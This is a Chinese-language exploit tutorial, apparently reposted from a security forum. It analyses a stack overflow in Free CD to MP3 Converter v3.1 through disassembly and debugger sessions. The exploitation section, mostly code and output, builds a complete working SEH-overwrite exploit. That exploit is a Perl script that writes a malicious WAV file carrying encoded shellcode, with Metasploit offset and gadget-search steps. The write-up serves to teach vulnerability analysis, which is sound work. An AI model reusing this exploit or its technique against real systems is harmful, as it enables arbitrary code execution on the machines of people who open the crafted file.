

# Free CD to MP3 Converter v3.1 栈溢出漏洞分析与利用

> 原文：[`www.pediy.com/kssd/pediy12/127514.html`](https://www.pediy.com/kssd/pediy12/127514.html)

标题：Free CD to MP3 Converter v3.1 栈溢出漏洞分析与利用

作者：riusksk(泉哥)

主页：http://riusksk.blogbus.com

## 前言

前些天在 exploit-db 上看到此漏洞公告，刚好也有提供漏洞软件的下载，于是就下载下来分析分析，并自己动手写了写 exploit，在虚拟机 xp sp3 下已经测试成功。以前也没有写过关于溢出漏洞分析的文章，今刚好碰到周末，就自己动手分析了下漏洞成因，因此也就有了本文。本文分析的软件是 Free CD to MP3 Converter v3.1，它是一款将 CD 音频提取出来并压缩成 MP3 格式的软件。该软件在读取本地文件时未验证其内容大小，从而导致在将文件内容保存到局部变量时可引发溢出，进而覆盖返回地址以及 SEH 结构，恶意用户通过构造特定文件即可执行任意代码。

## 漏洞分析

在 `ReadFile` 上下断后，经过多次调试，最终找到了漏洞函数 `sub_4AC138`，其在 IDA 下的反汇编代码如下：

代码:

```
CODE:004AC138 sub_4AC138      proc near               ; CODE XREF: sub_4AA590+50 p
CODE:004AC138                                         ; sub_4AA590+26B p
CODE:004AC138
CODE:004AC138 var_1024        = dword ptr -1024h
CODE:004AC138 var_1020        = dword ptr -1020h
CODE:004AC138 var_101C        = word ptr -101Ch
CODE:004AC138 var_1018        = dword ptr -1018h
CODE:004AC138 var_1014        = dword ptr -1014h
CODE:004AC138 var_1010        = dword ptr -1010h      ;读取文件内容后就是从这一局部变量开始保存的，通过这里就可以确定函数分配的栈空间大小为 1010h，即 4112 字节，因为栈空间是由高到低分配的，所以要覆盖到返回地址就要填充 4112 字节才行。
CODE:004AC138
CODE:004AC138                 push    ebx
CODE:004AC139                 push    esi
CODE:004AC13A                 push    edi
CODE:004AC13B                 push    ebp
CODE:004AC13C                 add     esp, 0FFFFF004h ; 分配栈空间
CODE:004AC142                 push    eax
CODE:004AC143                 add     esp, 0FFFFFFF4h ; 继续分配栈空间
CODE:004AC146                 mov     esi, eax
CODE:004AC148                 mov     byte ptr \[esi+407Ch\], 0
CODE:004AC14F                 xor     edi, edi
CODE:004AC151                 mov     ebx, 4
CODE:004AC156                 lea     edx, \[esp+101Ch+var_1010\] ; 将 edx 指向局部变量，后面将用它来保存读取的文件内容，即我们构造的文件内容将会填充到栈空间
CODE:004AC15A                 mov     ecx, 4
CODE:004AC15F                 mov     eax, \[esi+44h\]
CODE:004AC162                 mov     ebp, \[eax\]
CODE:004AC164                 call    _ReadWavFile      ;用于读取文件内容
{
0041EC54   .  8B40 04       MOV EAX,DWORD PTR DS:\[EAX+4\]
0041EC57   .  E8 F4A7FEFF   CALL <cdextrac._MyReadFile>
{
00409450 >/$  53            PUSH EBX
00409451  |.  56            PUSH ESI
00409452  |.  57            PUSH EDI
00409453  |.  51            PUSH ECX
00409454  |.  8BF9          MOV EDI,ECX
00409456  |.  8BF2          MOV ESI,EDX
00409458  |.  8BD8          MOV EBX,EAX
0040945A  |.  6A 00         PUSH 0                                ; /pOverlapped = NULL
0040945C  |.  8D4424 04     LEA EAX,DWORD PTR SS:\[ESP+4\]            ; |
00409460  |.  50            PUSH EAX                              ; |pBytesRead
00409461  |.  57            PUSH EDI                              ; |BytesToRead
00409462  |.  56            PUSH ESI                              ; |Buffer
00409463  |.  53            PUSH EBX                             ; |hFile
00409464  |.  E8 23DBFFFF   CALL <JMP.&kernel32.ReadFile>            ; \\ReadFile，读取文件内容并将其保存在漏洞函数的局部变量中
00409469  |.  85C0          TEST EAX,EAX
0040946B  |.  75 07         JNZ SHORT cdextrac.00409474
0040946D  |.  C70424 FFFFFF>MOV DWORD PTR SS:\[ESP\],-1
00409474  |>  8B0424        MOV EAX,DWORD PTR SS:\[ESP\]
00409477  |.  5A            POP EDX
00409478  |.  5F            POP EDI
00409479  |.  5E            POP ESI
0040947A  |.  5B            POP EBX
0040947B  \\.  C3            RETN
}
0041EC5C   .  83F8 FF       CMP EAX,-1
0041EC5F   .  75 02         JNZ SHORT cdextrac.0041EC63
0041EC61   .  33C0          XOR EAX,EAX
0041EC63   >  C3            RETN
}
CODE:004AC167                 cmp     ebx, 2000h      ; 作为计数器
CODE:004AC16D                 jge     loc_4AC624      ; 跳走则函数结束
CODE:004AC173
CODE:004AC173 loc_4AC173:                             ; CODE XREF: sub_4AC138+4E6 j
CODE:004AC173                 mov     eax, edi
CODE:004AC175                 cmp     eax, 4          ; switch 5 cases
CODE:004AC178                 ja      loc_4AC5F4      ; default
CODE:004AC17E                 jmp     off_4AC185\[eax*4\] ; switch jump，判断是哪一文件部分，如 RIFF，WAVE，FMT，DATA 等等，然后跳至相应位置进行处理，由于文件全部用 A 来填充，因此文件处理均在 RIFF 部分中进行
CODE:004AC17E ; ---------------------------------------------------------------------------
CODE:004AC185 off_4AC185      dd offset loc_4AC199    ; DATA XREF: sub_4AC138+46 r
CODE:004AC185                 dd offset loc_4AC1E0    ; jump table for switch statement
CODE:004AC185                 dd offset loc_4AC227
CODE:004AC185                 dd offset loc_4AC467
CODE:004AC185                 dd offset loc_4AC55B
CODE:004AC199 ; ---------------------------------------------------------------------------
CODE:004AC199
CODE:004AC199 loc_4AC199:                             ; CODE XREF: sub_4AC138+46 j
CODE:004AC199                                         ; DATA XREF: sub_4AC138:off_4AC185 o
CODE:004AC199                 mov     edx, offset aRiff_0 ; jumptable 004AC17E case 0，资源交换文件标志（RIFF）
CODE:004AC19E                 lea     eax, \[esp+ebx+101Ch+var_1014\]
CODE:004AC1A2                 call    sub_4AA4F4
CODE:004AC1A7                 test    al, al
CODE:004AC1A9                 jnz     short loc_4AC1C2
CODE:004AC1AB                 lea     edx, \[esp+ebx+101Ch+var_1010\] ; 局部变量，从栈顶开始向栈底填充文件内容
CODE:004AC1AF                 mov     ecx, 1
CODE:004AC1B4                 mov     eax, \[esi+44h\]
CODE:004AC1B7                 mov     ebp, \[eax\]
CODE:004AC1B9                 call    _ReadWavFile ; 读取文件内容
CODE:004AC1BC                 inc     ebx  ;递增计数器
CODE:004AC1BD                 jmp     loc_4AC5F4      ; default

……省略部分代码……

CODE:004AC5F4
CODE:004AC5F4 loc_4AC5F4:                             ; CODE XREF: sub_4AC138+40 j
CODE:004AC5F4                                         ; sub_4AC138+85 j ...
CODE:004AC5F4                 mov     eax, \[esi+44h\]  ; default
CODE:004AC5F7                 mov     edx, \[eax\]
CODE:004AC5F9                 call    dword ptr \[edx\]
CODE:004AC5FB                 push    edx
CODE:004AC5FC                 push    eax
CODE:004AC5FD                 mov     eax, \[esi+44h\]
CODE:004AC600                 call    @Classes@TStream@GetPosition$qqrv ; Classes::TStream::GetPosition(void)
CODE:004AC605                 cmp     edx, \[esp+1024h+var_1020\]
CODE:004AC609                 jnz     short loc_4AC614
CODE:004AC60B                 cmp     eax, \[esp+1024h+var_1024\]
CODE:004AC60E                 pop     edx
CODE:004AC60F                 pop     eax
CODE:004AC610                 jb      short loc_4AC618
CODE:004AC612                 jmp     short loc_4AC624
CODE:004AC614 ; ---------------------------------------------------------------------------
CODE:004AC614
CODE:004AC614 loc_4AC614:                             ; CODE XREF: sub_4AC138+4D1 j
CODE:004AC614                 pop     edx
CODE:004AC615                 pop     eax
CODE:004AC616                 jge     short loc_4AC624
CODE:004AC618
CODE:004AC618 loc_4AC618:                             ; CODE XREF: sub_4AC138+4D8 j
CODE:004AC618                 cmp     ebx, 2000h      ;计数器，循环读取文件，第一次是读取 4 字节，之后都是一字节一字节地读取，故共可读取 2003h > 1010h，最终导致溢出！！！
CODE:004AC61E                 jl      loc_4AC173      ;若小于 2000h 则跳至上方实现循环操作
CODE:004AC624
CODE:004AC624 loc_4AC624:                             ; CODE XREF: sub_4AC138+35 j
CODE:004AC624                                         ; sub_4AC138+4DA j ...
CODE:004AC624                 mov     byte ptr \[esi+407Ch\], 0
CODE:004AC62B
CODE:004AC62B loc_4AC62B:                             ; CODE XREF: sub_4AC138+1BE j
CODE:004AC62B                                         ; sub_4AC138+4BA j
CODE:004AC62B                 add     esp, 100Ch
CODE:004AC631                 pop     ebp
CODE:004AC632                 pop     edi
CODE:004AC633                 pop     esi
CODE:004AC634                 pop     ebx
CODE:004AC635                 retn
CODE:004AC635 sub_4AC138      endp
```

## 漏洞利用


我们先编写一段 perl 代码用于触发漏洞，代码如下：

```
my $junk = 'A' x 5000;
open($fp,">crash.wav");
print $fp $junk;
close $fp;
```

用 `windbg` 加载主程序 `cdextract.exe`，然后运行并打开前面生成的 `crash.wav` 文件后，结果如下：

```
(1254.1404): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=41414141 ecx=00001388 edx=00001388 esi=41414141 edi=41414141
eip=41414141 esp=0012fab0 ebp=41414141 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=0038  gs=0000             efl=00010206
41414141 ??              ???
0:000> !exchain
0012fad8: 41414141
Invalid exception stack at 41414141
```

返回地址及 SEH 均可被覆盖掉，因此可以用经典的 `jmp esp` 及 `pop pop ret` 两种方式来实现漏洞利用。但我在本机测试时，利用 `jmp esp` 覆盖返回地址后有跳入 shellcode，但 shellcode 被篡改了。我用 `windbg` 插件 `bgakugan` 的 `memdiff` 功能对比一下内存中的 shellcode 和原本写入的 shellcode，发现有不少字节被更改掉了。所以这里我们改用 `pop pop ret` 去覆盖 SEH 结构，进而来执行 shellcode。接下来我们应该定位一下覆盖 SEH 结构所需的字节数，这个可以直接借助 Metasploit 中的 `pattern_create` 和 `pattern_offset` 这两个小工具来定位。我们先用 `pattern_create` 生成 5000 字节的填充字符：

```
    =\[ metasploit v3.4.2-dev \[core:3.4 api:1.0\]
+ -- --=\[ 566 exploits - 283 auxiliary
+ -- --=\[ 210 payloads - 27 encoders - 8 nops
    =\[ svn r9834 updated 124 days ago (2010.07.14)

msf > cd tools
msf > pwd[\*] exec: pwd

/msf3/tools
msf > ruby pattern_create.rb 5000[\*] exec: ruby pattern_create.rb 5000

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8……省略部分内容……f3Gf4Gf5Gf6Gf7Gf8Gf9Gg0Gg1Gg2Gg3Gg4Gg5Gg6Gg7Gg8Gg9Gh0Gh1Gh2Gh3Gh4Gh5Gh6Gh7Gh8Gh9Gi0Gi1Gi2Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk
```

然后修改前面的 perl 代码，用生成的字符串替换 `$junk` 变量：

```
my $junk = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8……省略部分内容……f3Gf4Gf5Gf6Gf7Gf8Gf9Gg0Gg1Gg2Gg3Gg4Gg5Gg6Gg7Gg8Gg9Gh0Gh1Gh2Gh3Gh4Gh5Gh6Gh7Gh8Gh9Gi0Gi1Gi2Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk';
open($fp,">crash.wav");
print $fp $junk;
close $fp;
```

用上面的代码重新生成 `crash.wav`，然后用 `windbg` 加载主程序再打开 `crash.wav`，结果如下：

```
(13e4.11ac): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=68463967 ecx=00001388 edx=00001388 esi=46386746 edi=37674636
eip=31684630 esp=0012fab0 ebp=67463567 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=0038  gs=0000             efl=00010206
31684630 ??              ???
0:000> !exchain
0012fad8: 37694636     <= SEH Handle
Invalid exception stack at 69463569    <= next SEH
```

接着用 `pattern_offset` 工具计算一下：

```
msf > ruby pattern_offset.rb 0x69463569 5000[\*] exec: ruby pattern_offset.rb 0x69463569 5000

4156
```

从上面我们就可以得到偏移量为 4156，现在我们就可以重新构造文件：

```
my $junk = 'A'x 4156;
my $nseh = 'BBBB';
my $seh = 'CCCC';
open($fp,">crash.wav");
print $fp $junk;
close $fp;
```

重新用 `windbg` 加载主程序，然后运行并打开上面新生成的 `crash.wav` 文件，结果如下：

```
(7d4.172c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=41414141 ecx=00001044 edx=00001044 esi=41414141 edi=41414141
eip=41414141 esp=0012fab0 ebp=41414141 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=0038  gs=0000             efl=00010206
41414141 ??              ???
*** WARNING: Unable to verify checksum for image00400000
*** ERROR: Module load completed but symbols could not be loaded for image00400000
0:000> !exchain
0012fad8: 43434343
Invalid exception stack at 42424242
0:000> g
(7d4.172c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=00000000 ecx=43434343 edx=7c9232bc esi=00000000 edi=00000000
eip=43434343 esp=0012f6e0 ebp=0012f700 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
43434343 ??              ???
```

由上可见，我们已经准确地覆盖了 SEH 结构，现在我们只需要用 `jmp 06` 来覆盖 nextSEH，用 `pop pop ret` 指令地址来覆盖 SEH handle，再在后面接上 shellcode，即可使其执行到 shellcode。下面我们先来寻找一下 `pop pop ret` 指令地址，但在寻找之前，我们还有另一个问题需要解决。那就是 windows 系统上的 SafeSEH 保护问题，如果我们所使用的 ppt 地址是受 SafeSEH 保护的，那么将无法成功利用。因此我们可以先用 OD 插件 SafeSEH 来查看程序加载的哪些模块是未受 SafeSEH 保护的，然后再在那模块中寻找 ppt 地址。用 OD 插件 SafeSEH 查看后，发现有以下三个未受 SafeSEH 保护：

```
/SafeSEH Module Scanner, 条目 29
 SEH mode=/SafeSEH OFF
 Base=0xa00000
 Limit=0xa0d000
 Module version=0.29.4.10
 Module Name=C:\\Program Files\\CD to MP3 Freeware\\WNASPI32.DLL


/SafeSEH Module Scanner, 条目 30
 SEH mode=/SafeSEH OFF
 Base=0x672c0000
 Limit=0x672d3000
 Module version=1.0rc1
 Module Name=C:\\Program Files\\CD to MP3 Freeware\\akrip32.dll

/SafeSEH Module Scanner, 条目 31
 SEH mode=/SafeSEH OFF
 Base=0x400000
 Limit=0x51c000
 Module Name=C:\\Program Files\\CD to MP3 Freeware\\cdextract.exe
```

我们可以任选其一来搜索 ppt 地址，这里我们以 `cdextract.exe` 为例来搜索地址。关于 `pop pop ret` 指令搜索，我们可以直接用 Metasploit 工具 `msfpescan` 来搜索指令。下面是搜索结果：

```
msf > cmd[\*] exec: cmd

Microsoft Windows XP [版本 5.1.2600]
(C) 版权所有 1985-2001 Microsoft Corp.

C:\\Program Files\\Metasploit\\Framework3\\msf3\\tools>msf > cd 'C:\\Program Files\\CD to MP3 Freeware'
msf > pwd[\*] exec: pwd

/cygdrive/c/Program Files/CD to MP3 Freeware
msf > msfpescan -f cdextract.exe -p[\*] exec: msfpescan -f cdextract.exe -p

[cdextract.exe]
0x00401480 pop esi; pop ebx; ret
0x004014ac pop esi; pop ebx; ret
0x004014c9 pop esi; pop ebx; ret
0x004014e5 pop esi; pop ebx; ret
0x0040156d pop esi; pop ebx; ret
0x00401600 pop esi; pop ebx; ret
0x00401664 pop esi; pop ebx; ret
0x004016dc pop esi; pop ebx; ret
0x00401795 pop esi; pop ebx; ret
……省略……
0x004d7a45 pop ecx; pop ebp; ret
0x004d7bd0 pop esi; pop ebx; ret
0x004d7c82 pop ecx; pop ebp; ret
0x004d8082 pop ebx; pop ebp; ret
0x004d8152 pop ebx; pop ebp; ret
0x004d826b pop ebx; pop ebp; ret
```

里面可以搜索到相当多的 ppt 地址，这里我们就直接选用第一个。下面重新构造 exploit 代码：

```
my $junk = 'A'x 4156;
my $nseh = "\x90\x90\xeb\x06";   # jmp 06
my $seh = "\x80\x14\x40\x00";  # pop pop ret 
my $shellcode = "\xCC\xCC\xCC\xCC";
open($fp,">crash.wav");
print $fp $junk.$nseh.$seh.$shellcode;
close $fp;
```

测试结果：


```
(780.1640): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=41414141 ecx=00001048 edx=00001048 esi=41414141 edi=41414141
eip=41414141 esp=0012fab0 ebp=41414141 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=0038  gs=0000             efl=00010206
41414141 ??              ???
0:000> !exchain
0012fad8: image00400000+1480 (00401480)
Invalid exception stack at 06eb9090
0:000> bp 0012fad8
0:000> g
Breakpoint 1 hit
eax=00000000 ebx=0012f7c8 ecx=00401480 edx=7c9232bc esi=7c9232a8 edi=00000000
eip=0012fad8 esp=0012f6ec ebp=0012f700 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
0012fad8 90              nop
0:000> t
eax=00000000 ebx=0012f7c8 ecx=00401480 edx=7c9232bc esi=7c9232a8 edi=00000000
eip=0012fad9 esp=0012f6ec ebp=0012f700 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
0012fad9 90              nop
0:000> t
eax=00000000 ebx=0012f7c8 ecx=00401480 edx=7c9232bc esi=7c9232a8 edi=00000000
eip=0012fada esp=0012f6ec ebp=0012f700 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
0012fada eb06            jmp     0012fae2
0:000> t
eax=00000000 ebx=0012f7c8 ecx=00401480 edx=7c9232bc esi=7c9232a8 edi=00000000
eip=0012fae2 esp=0012f6ec ebp=0012f700 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
0012fae2 cc              int     3
```

成功地执行到 shellcode，现在我们放上 shellcode，这个读者可自行编写或者用 Metasploit 生成，最后得到最终的 exploit：

代码:

```
my $junk = 'A'x 4156;
my $nseh = "\\x90\\x90\\xeb\\x06";   # jmp 06
my $seh = "\\x80\\x14\\x40\\x00";  # pop pop ret 
my $nops = "\\x90\\x90";     # 用于抬高栈顶，防止 shellcode 被截断
my $shellcode = 
"\\xb8\\xc7\\xae\\x8e\\xae\\xd9\\xc7\\x33\\xc9\\xb1\\x31\\xd9\\x74\\x24" .
"\\xf4\\x5b\\x31\\x43\\x14\\x83\\xeb\\xfc\\x03\\x43\\x10\\x25\\x5b\\x72" .
"\\x46\\x20\\xa4\\x8b\\x97\\x52\\x2c\\x6e\\xa6\\x40\\x4a\\xfa\\x9b\\x54" .
"\\x18\\xae\\x17\\x1f\\x4c\\x5b\\xa3\\x6d\\x59\\x6c\\x04\\xdb\\xbf\\x43" .
"\\x95\\xea\\x7f\\x0f\\x55\\x6d\\xfc\\x52\\x8a\\x4d\\x3d\\x9d\\xdf\\x8c" .
"\\x7a\\xc0\\x10\\xdc\\xd3\\x8e\\x83\\xf0\\x50\\xd2\\x1f\\xf1\\xb6\\x58" .
"\\x1f\\x89\\xb3\\x9f\\xd4\\x23\\xbd\\xcf\\x45\\x38\\xf5\\xf7\\xee\\x66" .
"\\x26\\x09\\x22\\x75\\x1a\\x40\\x4f\\x4d\\xe8\\x53\\x99\\x9c\\x11\\x62" .
"\\xe5\\x72\\x2c\\x4a\\xe8\\x8b\\x68\\x6d\\x13\\xfe\\x82\\x8d\\xae\\xf8" .
"\\x50\\xef\\x74\\x8d\\x44\\x57\\xfe\\x35\\xad\\x69\\xd3\\xa3\\x26\\x65" .
"\\x98\\xa0\\x61\\x6a\\x1f\\x65\\x1a\\x96\\x94\\x88\\xcd\\x1e\\xee\\xae" .
"\\xc9\\x7b\\xb4\\xcf\\x48\\x26\\x1b\\xf0\\x8b\\x8e\\xc4\\x54\\xc7\\x3d" .
"\\x10\\xee\\x8a\\x2b\\xe7\\x63\\xb1\\x15\\xe7\\x7b\\xba\\x35\\x80\\x4a" .
"\\x31\\xda\\xd7\\x53\\x90\\x9e\\x26\\xa5\\x29\\x0b\\xbe\\x1f\\xd8\\x76" .
"\\xa2\\xa0\\x36\\xb4\\xdb\\x22\\xb3\\x45\\x18\\x3a\\xb6\\x40\\x64\\xfd" .
"\\x2a\\x39\\xf5\\x6b\\x4d\\xee\\xf6\\xbe\\x3e\\x78\\x09";
open($fp,">crash.wav");
print $fp $junk.$nseh.$seh.$nops.$shellcode;
close $fp;
```

测试结果：



已经成功地执行 shellcode 弹出对话框了。

### 结论

本文对存在溢出漏洞的软件作了大体的分析，简单地叙述了基本的栈溢出的漏洞成因和利用技术，希望对读者有所帮助。但在一些著名软件中，其漏洞成因及利用方式就没有这么简单了，有时还得考虑操作环境，本文的操作均是在 VBox 下的虚拟机 XP sp3，编写 exploit 有时还需要一些艺术细胞，这样才能构造出更具艺术性和创造性的 Exploit。

上传的附件

|  || Free CD to MP3 Converter v3.1 栈溢出漏洞分析与利用.doc  |
